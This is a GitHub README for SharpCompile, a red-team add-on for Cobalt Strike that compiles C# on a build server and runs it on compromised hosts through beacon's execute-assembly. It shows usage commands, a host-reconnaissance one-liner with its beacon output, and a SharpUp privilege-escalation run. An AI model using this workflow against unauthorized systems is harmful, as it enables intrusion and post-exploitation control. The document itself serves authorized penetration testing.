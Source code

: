 # SharpCompile

SharpCompile is an aggressor script for Cobalt Strike which allows you to compile and execute C# in realtime. This is a more slick approach than manually compiling an .NET assembly and loading it into Cobalt Strike. The project aims to make it easier to move away from adhoc PowerShell execution instead creating a temporary assembly and executing using beacon's 'execute-assembly' in seconds.

## Usage

Run server component elevated on a Windows machine (Your builder box) to listen on 0.0.0.0. This web server is intended to only be visible to operator systems (running the Cobalt Strike client) so is unauthenticated. Firewall this off and take advantage of SSL by providing 'cert.cer' alongside the server binary.

```
SharpCompileServer.exe [Optional: Full CSC Path (Default: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe)] [Optional: Port (Default: 80 or 443 if 'cert.cer' present)]
```

Your Cobalt Strike client then tasks the server component to build an assembly when required. This simply requires 'curl' by default so should work out the box on OS X and Linux. You will likely need to tweak the .cna to make it work on Windows calling a 'curl.exe' etc.

Modify the config section at the top of 'SharpCompile.cna' and load into Cobalt Strike. This exposes SharpCompile in the following ways:

*sharp-exec alias:*

```
beacon> sharp-exec Console.WriteLine(String.Format("Username: {0}\nDomain: {1}",Environment.UserName, Environment.UserDomainName));
[*] Tasked beacon to run .NET program: sharpcompile_38692.exe
[+] host called home, sent: 109611 bytes
[+] received output:
Username: Administrator
Domain: EVILCORP
```

*SharpCompile beacon menu:*

Right hand click a beacon:

![SharpCompile Menu](sharpcompile_menu.png)

Select the .cs you want to compile and execute:

![SharpCompile Dialog](sharpcompile_dialog.png)

In the below example we compile [SharpUp](https://github.com/GhostPack/SharpUp) and run it with an 'audit' argument:

```
[*] Tasked beacon to run .NET program: sharpcompile_98542.exe audit
[+] host called home, sent: 133173 bytes
[+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] Already in high integrity, no need to privesc!

[*] Audit mode: running all checks anyway.


=== Modifiable Services ===

---snip---
```

Note: The version of .NET Framework csc.exe you specify for server component matters when compiling code that needs a specific version. This process does not give any feedback on compilation, so if code does not compile you will likely get an error in Cobalt Strike saying invalid assembly.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## License

SharpCompile

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [uhttpsharp](https://github.com/bonesoul/uhttpsharp) - C# web server package.
* Ryan Cobb [@cobbr_io](https://twitter.com/cobbr_io) - Chatted about this concept.
* [SharpCradle](https://github.com/anthemtotheego/SharpCradle) - This is an awesome project worth checking out, slightly different concept for a slightly different use case, non-Cobalt Strike specific.



